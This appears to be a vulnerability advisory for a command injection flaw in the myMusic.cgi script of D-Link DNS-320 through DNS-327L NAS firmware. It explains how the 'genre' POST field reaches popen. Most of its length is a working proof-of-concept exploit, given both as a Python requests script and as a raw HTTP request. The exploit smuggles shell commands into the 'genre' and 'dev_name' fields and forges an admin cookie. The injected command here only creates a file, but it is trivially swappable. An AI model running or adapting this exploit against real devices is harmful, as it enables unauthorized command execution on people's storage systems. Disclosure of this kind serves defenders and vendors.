 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_get_genre_all_tracks function of the file /cgi-bin/myMusic.cgi.  The variable `genre`is passed from a POST request and is assigned to `v5` via the `sprintf` function at line 30 and invoked by the `popen` command, it can lead to command execution. 

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723717232503-abf8147b-2174-4ef3-92a7-82d68ac57f82.png#averageHue=%23fdfdfa&clientId=uc1af639a-ad9b-4&from=paste&height=243&id=u147aa455&originHeight=243&originWidth=876&originalType=binary&ratio=1&rotation=0&showTitle=false&size=37767&status=done&style=none&taskId=u380474c4-df86-45ce-9ed5-fdc20465804&title=&width=876)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_get_genre_all_tracks&ptype=clean&genre=`touch%09/tmp/119`&type=1&user=photos&idx=10&dev_name=%0atouch%09/tmp/118%0a&dev_type=10&page=19&r=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_get_genre_all_tracks&ptype=clean&genre=`touch%09/tmp/119`&type=1&user=photos&idx=10&dev_name=%0atouch%09/tmp/118%0a&dev_type=10&page=19&r=/tmp/
```

